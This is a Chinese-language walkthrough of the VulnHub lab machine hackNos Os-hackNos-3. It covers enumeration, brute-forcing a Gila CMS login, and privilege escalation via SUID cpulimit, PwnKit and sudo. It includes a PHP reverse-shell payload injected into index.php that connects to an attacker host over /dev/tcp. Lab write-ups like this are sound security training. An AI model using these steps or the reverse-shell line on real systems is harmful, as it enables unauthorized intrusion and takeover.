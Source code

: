 # hackNos: Os-hackNos-3

2025.02.19 https://www.vulnhub.com/entry/hacknos-os-hacknos-3,410/

[video](https://www.bilibili.com/video/BV1gJABexE6o/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

扫描发现http://192.168.5.40/upload.php ffuf 探测一下参数，没找到。

看到 80 首页底部提示：find the Bug You need extra WebSec , 访问 http://192.168.5.40/websec/ 目录得到新的页面，gobuster 再次扫描，发现登陆页面，title 显示 Gila CMS 看看有没有爆出的漏洞，发现 RCE https://www.exploit-db.com/exploits/51569 但是需要用户凭据。

在首页底部发现了一个邮箱：contact@hacknos.com 需要找到密码，使用一个简单的密码字典进行爆破，得到了密码为 Securityx , 在扫描时需要调低扫描速度，系统会对登陆速率进行检测。

然后再次执行 51569 exp ，但是执行后是 404，exp 有问题，手动执行，在系统后台左侧 Content -> File Manager -> 编辑 index.php 文件，添加如下内容：

http://192.168.5.40/websec/admin/fm?f=./index.php

```
system('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"');
```

然后访问： curl http://192.168.5.40/websec/ 在 kali 上获得了反弹 shell。

先拿到了 user flag：

```
www-data@hacknos:/home/blackdevil$ cat user.txt
bae11ce4f67af91fa58576c1da2aad4b
```

发现 suid 程序：

```
www-data@hacknos:/home/blackdevil$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 2989 detected
# cd /root
# cat root.txt
########    #####     #####   ########         ########
##     ##  ##   ##   ##   ##     ##            ##     ##
##     ## ##     ## ##     ##    ##            ##     ##
########  ##     ## ##     ##    ##            ########
##   ##   ##     ## ##     ##    ##            ##   ##
##    ##   ##   ##   ##   ##     ##            ##    ##
##     ##   #####     #####      ##    ####### ##     ##


MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
```

同时也可以利用 CVE-2021-4034 PwnKit 直接提权到 root。

最后看了一下其他的解决方式，发现 /var/local/database 文件,是一个利用 https://www.spammimic.com/spreadsheet.php?action=decode 编码的文件，可以将其内容进行解码，得到了密码 Security@x@，此密码为用户 blackdevil 的，切换成功后，sudo -l 有 ALL 权限，同样可以提权到 root。
